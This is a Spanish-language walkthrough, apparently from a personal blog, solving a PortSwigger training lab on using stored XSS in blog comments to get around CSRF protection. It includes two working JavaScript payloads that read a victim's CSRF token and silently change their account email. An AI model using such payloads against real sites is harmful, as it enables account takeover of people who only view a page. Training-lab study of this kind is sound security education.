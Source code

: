 ```yaml
---
title: Exploiting XSS to bypass CSRF defenses
description: Laboratorio de Portswigger sobre XSS
date: 2025-01-18 12:25:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - XSS
tags:
  - Portswigger Labs
  - XSS
  - Exploiting XSS to bypass CSRF defenses
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una vulnerabilidad de `XSS almacenado` en la función de `comentarios del blog`. Para `resolver` el laboratorio, debemos `explotar` la `vulnerabilidad` para `robar` un `token CSRF`, que luego podemos usar para `cambiar` la `dirección de correo electrónico` de alguien que vea los `comentarios` de la `publicación` del `blog`. Podemos `iniciar sesión` en nuestra propia `cuenta` utilizando las credenciales `wiener:peter`

---

## Guía de XSS

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de XSS` [https://justice-reaper.github.io/posts/XSS-Guide/](https://justice-reaper.github.io/posts/XSS-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XSS-Lab-24/image_1.png)

Si pulsamos sobre `My account` nos podemos `loguear` con las credenciales `wiener:peter`

![](/assets/img/XSS-Lab-24/image_2.png)

Vemos que podemos `cambiar` nuestro `email`

![](/assets/img/XSS-Lab-24/image_3.png)

Si `capturamos` la `petición` con `Burpsuite` vemos que se envía el `email` y el `token CSRF`

![](/assets/img/XSS-Lab-24/image_4.png)

Si `inspeccionamos` el `código fuente` de la web también podemos ver el `token CSRF`

![](/assets/img/XSS-Lab-24/image_5.png)

Si pulsamos sobre `View post` vemos que tenemos una `sección` en la que podemos hacer `comentarios`

![](/assets/img/XSS-Lab-24/image_6.png)

Al hacer un `comentario` nos mete el `input` en unas `etiquetas <p></p>`

![](/assets/img/XSS-Lab-24/image_7.png)

Sin embargo, si intentamos `inyectar` algo entre `etiquetas <h1></h1>` vemos que nos `inyecta` las `etiquetas` con su `contenido` y deja las `<p></p>` vacías

![](/assets/img/XSS-Lab-24/image_8.png)

Si nos `abrimos` el `inspector` de `Chrome` y le echamos un vistazo a las `cookies` vemos que tienen las `flags HttpOnly y Secure`. `HttpOnly` nos `impide acceder a la cookie a través de JavaScript` y `Secure nos obliga a que la cookie solo se transmita a través de conexiones seguras HTTPS`

![](/assets/img/XSS-Lab-24/image_9.png)

Si vemos el `código fuente` observamos que al `publicar` un `comentario` también existe un `token CSRF`

![](/assets/img/XSS-Lab-24/image_10.png)

Para obtener el valor del `token CSRF` podemos hacerlo con `document.getElementsByName('csrf')[0].value`

![](/assets/img/XSS-Lab-24/image_11.png)

Aunque no podamos enviar información a nuestro servidor porque tiene las `flags HttpOnly y Secure` podemos usar el `XSS` para hacer que el `usuario víctima cambie su email o publique un mensaje con sus cookies`

```
<script>
    window.addEventListener('DOMContentLoaded', function() {
        var token = document.getElementsByName('csrf')[0].value;

        var data = new FormData();
        data.append('csrf', token);
        data.append('email', 'evil@hacker.net');

        fetch('/my-account/change-email', {
            method: 'POST',
            mode: 'no-cors',
            body: data
        });
    });
</script>
```

Otra `alternativa` sería usar `XMLHttpRequest`

```
<script>
    var req = new XMLHttpRequest();
    req.onload = handleResponse;
    req.open('get', '/my-account', true);
    req.send();

    function handleResponse() {
        var parser = new DOMParser();
        var doc = parser.parseFromString(this.responseText, 'text/html');
        var token = doc.querySelector('input[name="csrf"]').value;
        var changeReq = new XMLHttpRequest();
        changeReq.open('post', '/my-account/change-email', true);
        changeReq.send('csrf=' + token + '&email=test@test.com');
    };
</script>
```
